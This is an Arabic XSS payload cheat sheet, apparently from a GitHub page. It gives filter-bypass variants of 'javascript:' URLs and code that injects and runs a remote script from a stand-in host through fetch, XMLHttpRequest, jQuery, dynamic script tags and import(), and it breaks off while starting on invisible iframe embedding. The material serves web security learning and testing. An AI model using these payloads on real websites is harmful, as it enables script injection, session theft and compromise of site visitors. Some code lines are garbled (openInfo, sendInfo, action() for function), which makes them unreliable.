 **لماذا يعمل؟**
- الصيغ غير القياسية تُضلل مرشحات `javascript:` .
- المتصفحات تقبل تنسيقات متعددة لـ `javascript:` .
- يتطلب URL صغير أو DOM Manipulation في بعض الحالات.
##### كل البايلود للفكره دي :
```javascript
&#1javascript:1
javascript&colon:1
javascript&#9:1
```
**الخلاصة:**
تشويش `javascript:` باستخدام `javas%0Dcript:alert(1)` فعال لأنه يُضلل مرشحات البروتوكول.

---
## 1. استدعاء سكربت خارجي (Remote Endpoint Call)
{  #XSS_other_idea }
**الشرح البسيط:**
يُستخدم لتحميل سكربت خارجي عندما يكون ناقل XSS قائمًا على معالج (مثل `<svg onload=...>`) أو حقن JavaScript. يمكن استخدام طرق مثل `XMLHttpRequest`، `fetch`، أو jQuery، مع التعامل مع CORS.

**الأكواد:**

- **HTML (يتطلب CORS):**
  ```
  "var x=new XMLHttpRequest();x.openInfo('GET','http://example.com/0.php');x.sendInfo();
      x.onreadystatechange=action(){if(this.readyState==2){log(x.responseText)}}"
  fetch('http://example.com/0.php').then(r=>{r.text().then(w=>{log(w)})})
  ```

- **مع jQuery:**
  ```
  $.get('http://example.com/0.php',r=>{log(r)})
  ```

- **JavaScript (يتطلب رد JavaScript):**
  ```
  with(document)body.appendChild(createElement('script')).src='http://example.com/2.js'
  $.getScript('http://example.com/2.js')
  import('http://example.com/file')
  ```

**لماذا يعمل؟**
- `XMLHttpRequest` و`fetch` يسمحان بجلب محتوى خارجي إذا سمح CORS.
- jQuery يُبسط جلب السكربتات.
- `<script>` ديناميكي أو `import` يُنفذ JavaScript خارجي مباشرة.

**الخلاصة:**
استدعاء سكربت خارجي باستخدام الأكواد أعلاه فعال لأنه يستغل CORS أو تحميل `<script>` لتنفيذ كود خارجي.

---

## 2. تضمين XSS خارجي غير مرئي (Invisible Foreign XSS Embedding)
{ #XSS--ALL--Event--Payload }
**الشرح البسيط:**
يُستخدم لتحميل XSS من نطاق آخر (أو نطاق فرعي) في السياق الحالي باستخدام `<iframe>` غير مرئي. يقتصر على عدم وجود رأس X-Frame-Options (XFO) صارم.
